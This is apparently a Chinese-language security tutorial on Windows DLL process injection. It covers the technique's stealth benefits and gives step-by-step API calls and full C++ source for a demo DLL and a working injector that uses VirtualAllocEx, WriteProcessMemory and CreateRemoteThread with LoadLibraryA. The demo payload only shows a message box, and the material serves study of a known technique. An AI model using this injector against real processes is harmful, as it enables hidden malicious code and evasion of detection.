 # Process Injection  

------------------------------  

### 0x00 前言  
进程注入：将自己的代码放在目标进程的地址空间里运行，实现对内存中的某个进程进行操作，并且获得该进程地址空间里的数据，或者修改进程的私有数据结构。

利用 DLL 文件，在 DLL 文件第一次被装载进进程时，会执行 DllMain 中的 DLL\_PROCESS\_ATTACH 下的代码。  

进程注入的优点是：  

1. 需要插入到远程进程的内存空间是通过virtualAllocEx这样的函数分配的，只存在于内存中，如果不是内存查杀，很难发现。
2. 可以复用宿主进程的名称、端口，更加隐蔽  



### 0x01 进程注入流程    
进程注入的流程：  

1. 将系统权限提升到Debug模式，因为只有debug模式才能打开远程进程的handle。(`EnableDebugPrivilege`)
2. 打开远程进程。(`OpenProcess`)
3. 将 DLL 文件的路径分配到目标内容空间中。(`VirtualAllocEx`)
4. 将DLL文件内容写入到远程进程。(`WriteProcessMemory`)
5. 在宿主进程中启动新线程完成插入。(`CreateRemoteThread`)


>上面提到的函数到 MSDN 查看详细的使用方法。


### 0x02 程序  
恶意的 DLL 文件代码： 
`DllHeader.h`:  

	#ifndef dllDemoHeader	#define dllDemoHeader	#ifdef DLLDEMO	#define EXPOETS_DEMO _declspec(dllexport)	#else	#define EXPORTS_DEMO _declspec(dllimport)	#endif	extern "C" EXPORTS_DEMO int add(int a, int b);	#endif
	
`Main`:  

	#include <windows.h>	#include "DllHeader.h"	//dll Entry Point Function	bool APIENTRY DllMain(HANDLE hModule, DWORD dwReason, void* lpReserved) {		switch(dwReason) {			//it can be executed when first time loaded 			case DLL_PROCESS_ATTACH:				MessageBox(NULL, TEXT("Hello DLL~"), TEXT("Title"), MB_OK);				break;			//			case DLL_THREAD_ATTACH:				break;			//			case DLL_THREAD_DETACH:				break;			//			case DLL_PROCESS_DETACH:				break;		}		return true;	}	int add(int a, int b) {		return a + b;	}




进程插入代码： 

	/**	 * Description: This is example for process inject.	 *	Author: xx	 * Time: 2017.2.22	 * Version: 0.1	 */	#include <iostream>	#include <windows.h>	using namespace std;	//	int EnableDebugPrivilege(const char* name);	int main(int argc, char* argv[]) {		char filePath[MAX_PATH];		//MAX_PATH是C语言运行时库中通过#define指令定义的一个宏常量，它定义了编译器所支持的最长全路径名的长度。		HANDLE hRemoteProcess;		char* pszLibFileRemote;		bool retVal;		//Adjust privilege "DEBUG"		EnableDebugPrivilege(SE_DEBUG_NAME);		GetCurrentDirectory(MAX_PATH, filePath);		strcat(filePath, "\\DllTest.dll");		cout << filePath << endl;		//打开目标进程		hRemoteProcess = OpenProcess(PROCESS_ALL_ACCESS, false, 284);		if(hRemoteProcess == NULL) {			cout << "OpenProcess() Failed" << endl;		}		//为 dll 路径分配内存空间		pszLibFileRemote = (char*)VirtualAllocEx(hRemoteProcess, NULL, strlen(filePath)+1, MEM_COMMIT, PAGE_READWRITE);		if(pszLibFileRemote == NULL) {			cout << "VirtualAllocEx() Failed" << endl;		}		//将 dll 路径写入内存空间		retVal = WriteProcessMemory(hRemoteProcess, pszLibFileRemote, filePath, strlen(filePath)+1, NULL);		if(retVal == 0) {			cout << "WriteProcessMemory() Failed" << endl;		}		//得到 LoadLibraryA 的内存地址		PTHREAD_START_ROUTINE pfnStartAddr = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");		if(pfnStartAddr == NULL) {			cout << "GetProcAddress() Failed" << endl;		}		//创建子进程		HANDLE hRemoteThread;		hRemoteThread = CreateRemoteThread(hRemoteProcess, NULL, 0, pfnStartAddr, pszLibFileRemote, 0, NULL);		if(hRemoteThread == NULL) {			cout << "CreateRemoteThread() Failed" << endl;		}		else {			cout << "Inject Success" << endl;		}		CloseHandle(hRemoteProcess);		CloseHandle(hRemoteThread);		system("pause");		return 0;	}	int EnableDebugPrivilege(const char* name) {		HANDLE hToken;		TOKEN_PRIVILEGES tp;		LUID luid;		OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, & hToken);		LookupPrivilegeValue(NULL, name, &luid);		tp.PrivilegeCount = 1;		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;		tp.Privileges[0].Luid = luid;		if(AdjustTokenPrivileges(hToken, 0, &tp, sizeof(TOKEN_PRIVILEGES), NULL, NULL)) {			cout << "AdjustTokenPrivileges Success" << endl;		}		return 0;	}




</br> 

-------------------------------
References: 
cnblogs.茄子写字板:  <http://www.cnblogs.com/handt/archive/2012/08/09/2627277.html>  
淡泊明志，宁静致远:  <http://andylin02.iteye.com/blog/459483>  
</br>
Author: xx  
Time: 2017.2.22
